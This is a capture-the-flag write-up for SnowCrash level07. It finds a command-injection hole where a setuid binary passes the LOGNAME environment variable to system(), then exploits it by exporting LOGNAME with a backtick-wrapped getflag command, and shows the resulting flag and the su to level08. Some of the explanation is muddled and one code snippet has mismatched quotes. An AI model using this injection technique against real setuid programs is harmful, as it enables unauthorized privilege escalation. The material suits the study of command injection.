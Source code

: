 strings: A Linux utility that prints the sequences of printable ASCII characters present in a binary.
getenv(): Returns the value of an environment variable in C.
system(): Runs a shell command in C.
setresuid()/setresgid(): These functions alter the user and group ids, respectively, and might be used to switch what privileges the program runs as.

#### Running strings level07 shows that:

We notice that the binary uses several system and C standard library functions, which includes `getenv(), system(), setresuid(), and setresgid()` .
One of the environment variables which it uses is `LOGNAME`.
There is a line `/bin/echo %s`, from which it seems like the program calls the `system()` function with a shell command containing `LOGNAME` variable in an echo command.
Vulnerability in Binary
The program utilizes `getenv("LOGNAME")` to retrieve the value of the environment variable `LOGNAME`. The return from `getenv()` is utilized as an argument to the `system()`` function for execution, which essentially executes echo `LOGNAME`. Thus, it is vulnerable to a possible command injection attack.

We can exploit the value of LOGNAME to execute shell commands without any limitation. We'll set LOGNAME to the `getflag command` (where it fetches the flag for the current level). The program will print LOGNAME instead of executing getflag.


## 1. Run strings on the binary:

``` bash
level07@SnowCrash:~$strings level07
/lib/ld-linux.so.2
zE&9qU
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
asprintf
getenv
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
 UWVS
[^_]
LOGNAME
/bin/echo %s 
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
	 gid
	 uid
/home/user/level07
/usr/include/i386-linux-gnu/bits
/usr/include
level07.c
types.h
unistd.h
long long int
/home/user/level07/level07.c
__uid_t
envp
long long unsigned int
setresuid
getenv
setresgid
unsigned char
system
GNU C 4.6.3
argc
__gid_t
short unsigned int
main
asprintf
short int
buffer
argv
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.ctors
.dtors
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
.debug_loc
crtstuff.c
__CTOR_LIST__
__DTOR_LIST__
__JCR_LIST__
__do_global_dtors_aux
completed.6159
dtor_idx.6161
frame_dummy
__CTOR_END
```

This will give us some idea of how the program uses the LOGNAME environment variable and calls the system() function with a command like /bin/echo.

## 2. Setting the LOGNAME environment variable to execute getflag:

We can exploit this by setting the LOGNAME to the command we want executed - in this case, getflag. We do this by using:

``` bash
level07@SnowCrash:~$ export LOGNAME=`getflag`
```
Run the binary: The binary run just with LOGNAME set to the getflag command will be executed:

```
bash
/bin/echo `getflag`
```

As the program is using the system() function, this command will actually execute getflag and print the flag.
LOGNAME is an environment variable used by the program. So, by setting LOGNAME to getflag, we inject this command into the system("/bin/echo LOGNAME") call.
Backticks: In the command 
``` bash 
export LOGNAME=\'getflag\`
```
the backticks execute the getflag command and its output is assigned to the LOGNAME environment variable. That's the classical shell injection since the value assigned to LOGNAMEis executed within the system()` call.
Output: Running the binary after setting LOGNAME yields:

``` bash
level07@SnowCrash:~$  ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## 3. Switch to Level08: Using the flag, to switch to the next level:

``` bash
$ su level08
Password: fiumuikeil55xe9cu4dood66h
``` 
 The program insecurely passes an environment variable - without any kind of sanitization - to the system() function. System interprets its input as a shell command so anything we set in LOGNAME gets executed along with the command. Meaning, we can inject and execute arbitrary commands such as getflag.